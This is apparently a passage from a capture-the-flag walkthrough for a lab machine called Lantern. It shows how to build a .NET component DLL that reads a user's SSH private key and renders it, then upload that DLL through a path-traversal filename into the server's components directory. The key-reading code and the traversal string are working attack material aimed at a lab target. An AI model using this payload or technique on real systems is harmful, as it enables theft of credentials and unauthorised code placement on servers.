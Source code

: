 ### Exploiting .NET Components

1.  **Install .NET 6 SDK**:

    ```bash
    sudo apt install dotnet-sdk-6
    ```
2.  **Create and Configure .NET Project**:

    ```bash
    dotnet new console -c sedlyf
    ```

    ```bash
    dotnet add package Microsoft.AspNetCore.Components --version 6.0.0
    ```
3.  **Update `Program.cs`**:

    ```csharp
    using Microsoft.AspNetCore.Components;
    using Microsoft.AspNetCore.Components.Rendering;
    using System.IO;

    namespace sedlyf
    {
        public class Component : ComponentBase
        {
            protected override void BuildRenderTree(RenderTreeBuilder builder)
            {
                base.BuildRenderTree(builder);

                // Read file content
                string file = File.ReadAllText("/home/tomas/.ssh/id_rsa"); //ssh key
                builder.AddContent(0, file);
            }
        }
    }
    ```
4.  **Build the DLL**:

    ```bash
    dotnet build sedlyf.csproj -c Release
    ```

    The DLL is saved in `bin/Release/net6.0/sedlyf.dll`.

### Exploiting the Upload

Upload the DLL to `lantern.htb:3000`. The file upload page allows for arbitrary file uploads.

To circumvent directory restrictions, modify the filename to:

```
../../../../../../opt/components/sedlyf.dll
```
